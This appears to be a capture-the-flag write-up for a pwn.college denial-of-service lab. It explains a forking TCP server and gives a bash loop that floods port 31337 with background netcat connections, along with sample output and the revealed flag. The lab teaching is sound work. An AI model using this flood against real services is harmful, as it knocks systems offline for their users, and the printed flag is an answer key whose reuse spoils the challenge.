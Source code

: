 # Denial-of-service-3 — Writeup

## 🧠 Challenge Overview

In this challenge, we are given a virtual network with three hosts:

- **User Host** (`10.0.0.1`): You
- **Server Host** (`10.0.0.2`): Listens on TCP port `31337`
- **Client Host** (`10.0.0.3`): Tries to connect to the server and send `"Hello, World!\n"` once every second

If the client **fails to send** the message (e.g., connection timeout), it **prints the flag**.

---

## 🎯 Goal

**Prevent the client from connecting** to the server on port `31337`.  
This is a classic **Denial-of-Service (DoS)** scenario. If the server is too busy (e.g., stuck handling our requests), it can't serve the client — and the flag is revealed.

---

## 🔍 Server Logic Summary (from `/challenge/run`)

- Server listens on `0.0.0.0:31337`.
- Each incoming connection is handled via `ForkingTCPServer`, which forks a new process.
- Each handler waits up to `1s` for a message, then closes.
- The client retries forever, but **if it hits a `TimeoutError` or `socket.timeout`**, it prints the flag.

---

## 💡 Exploit Strategy

We flood the server with **many rapid short-lived connections**, occupying its process slots, causing:

- **Fork overload**: server runs out of process slots
- **Connection backlog saturation**
- **Socket timeouts** due to load

We want to *flood the server* **without crashing our shell** by hitting the system fork limit.

---

## 💣 Final Exploit

```bash
while true; do
  nc -w 2 10.0.0.2 31337 &
  sleep 0.000000001
done
```

- nc -w 2: sets a 2s timeout per connection
- &: runs in background
- sleep 0.000000001: slight delay to avoid hitting:
```
-bash: fork: retry: Resource temporarily unavailable

```
This script spawns many connections to overwhelm the server, while staying under the fork limit.

### Sample Output

```
[12248] 50552
[11737]   Exit 1  nc -w 2 10.0.0.2 31337
...
[12318]   Done    nc -w 2 10.0.0.2 31337
root@ip-10-0-0-1:~#
```
Eventually, the client fails to connect, and we get:
```
pwn.college{U55-2EAaxUiI_mD6vLgJNCPKwUC.0VO1AjNxwSM0IzMyEzW}
```

---

## Final Flag
```
pwn.college{U55-2EAaxUiI_mD6vLgJNCPKwUC.0VO1AjNxwSM0IzMyEzW}
```
---
